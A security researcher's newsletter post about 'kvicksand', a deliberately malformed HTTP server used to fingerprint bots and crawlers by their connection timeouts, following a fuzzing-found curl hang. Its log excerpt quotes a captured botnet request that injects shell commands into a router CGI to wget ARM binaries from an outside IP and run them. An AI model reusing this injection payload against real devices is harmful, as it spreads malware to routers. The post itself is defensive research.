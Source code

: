 ```yaml
---
title: "Capturing Robots With Kvicksand"
date: "2021-10-18"
draft: false
---
```

Last year I was doing a series of[ webinars on software fuzzing](https://www.youtube.com/watch?v=_ngq3yL0dkg). Me and[ Pasi](https://www.twitter.com/pasi_s7) from F-Secure compared methods where we tried two different techniques for fuzzing HTTP clients. Fuzzing is essentially a brute-force method for finding bugs in software. You try various inputs and see what happens. My method was based on running each fuzzer engine in a Docker instance, using a local network and a shared file system for coordination between instances. I called it [the fuzzminator](https://github.com/kugg/fuzzminator). It wasn't the best method. It was too slow and only usable for small applications. It did find one application hang in the HTTP client curl that[ I reported](https://hackerone.com/reports/889160) to the maintainer[ Bagder](https://daniel.haxx.se/).

The hang
========

It's really silly. If an HTTP server responds with an incomplete header, the client will have to wait until either the server closes the connection or a client timeout is reached. Curl has a timeout option "-m, --max-time" that can be used as a hard timeout. Clearly this is not a vulnerability because that event can be handled by anyone who uses that option. Later it became apparent to me that not all HTTP clients have this option.

Here is an example of an incomplete server response:

```echo -e "HTTP/1.1 200 OK\r\nLocation:\r\nContent-Range:\r\nConnection:\r\n" | nc --listen --source-port 8080```

![](https://dim.mcusercontent.com/cs/ddd7ae486331199e51e491d97/images/4a65b922-2d5d-5037-34fc-23faa9af1b3b.jpg?w=564&dpr=2)

Introducing kvicksand
=====================

For the sake of science I decided to script a minimal malformed HTTP server designed to measure how HTTP clients handle malformed headers and timeouts. If you want to try this yourself you can find the [server here](https://github.com/kugg/kvicksand). This is how it works:

1.  The server receives a new TCP connection, logs the IP address and the time
2.  The client sends a HTTP request that the server logs
3.  The server responds with incomplete HTTP headers
4.  The server waits for the client to close the TCP connection and notes the time of closing

**Disclaimer**: *The script is written only for the purpose of collecting data to this newsletter and is not intended for production use. May it inspire you to do better!*

Results
=======

First of all, robots almost always use a consistent timeout. For instance, zgrabber always waits for 10 seconds. Twitterbot always starts with a timeout of 15 seconds when it requests the robots.txt file. This means that regardless of the User-Agent request header or source IP you can pretty much recognize an automated HTTP client on its max-timeout value.

A user who unknowingly requests Kvicksand in an `<iframe>` or an `<img>` tag rarely leaves the site after a number of whole seconds. Human visitors (almost) always leave a page (i.e. close the connection) after fractions of seconds. This means that the Kvicksand heuristics can be useful for[ determining a "CAPTCHA score"](https://antcpt.com/eng/information/demo-form/recaptcha-3-test-score.html).

Secondly, a few of the more malicious botnets around have not implemented a max-timeout at all. Forks of the Mirai botnet did not have a max-timeout so it waited and was blocked for five minutes (300 seconds was my server max-wait). I downloaded and disassembled a payload from the bot and lo and behold -- it was single-threaded and did not have a timeout, so yes you can block the bad bots!

Logs
====

Below are some log excerpts in comma-separated format (CSV):

Malware:
```
"User-agent", "timeout (seconds)", "IP address", "Request";
"KrebsOnSecurity", "0","205.185.119.4","GET /dnslookup.cgi?host_name=[www.google.com](http://www.google.com/);+cd+/tmp;rm+arm+arm7;wget+http:/\/[205.185.126.200/arm7;chmod+777+arm7;./arm7+netgear;wget+http:/\/205.185.126.200/arm;chmod+777+arm;./arm+netgear&lookup=Lookup&ess_=true](http://205.185.126.200/arm7;chmod+777+arm7;./arm7+netgear;wget+http:/%5C/205.185.126.200/arm;chmod+777+arm;./arm+netgear&lookup=Lookup&ess_=true) HTTP/1.1"
"Mozilla/5.0 (Windows NT 5.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36", "10","180.149.125.175","GET /stalker_portal/server/tools/auth_simple.php HTTP/1.1
"Mozila/5.0", "300","194.163.173.129","POST /HNAP1/ HTTP/1.1" <- Mirai
```
Crawlers:
```
"User-agent", "timeout (seconds)", "IP address", "Request";
"Mozilla/5.0 zgrab/0.x", "10","198.199.112.175","GET / HTTP/1.1"
"Mozilla/5.0 zgrab/0.x", "10","18.136.194.238","GET / HTTP/1.1"
"Twitterbot/1.0", "15","199.16.157.181","GET /robots.txt HTTP/1.1"
"Twitterbot/1.0", "2","199.16.157.181","GET / HTTP/1.1"
```

Still there?
============

I'm currently working with multiple clients to try to finalize my schedule. I do have time for your feedback and inquiries, so please stay in touch!

I want to send out a special thank you to [Laban Sköllermark](https://twitter.com/labanskoller) for Quality Assurance on this newsletter!
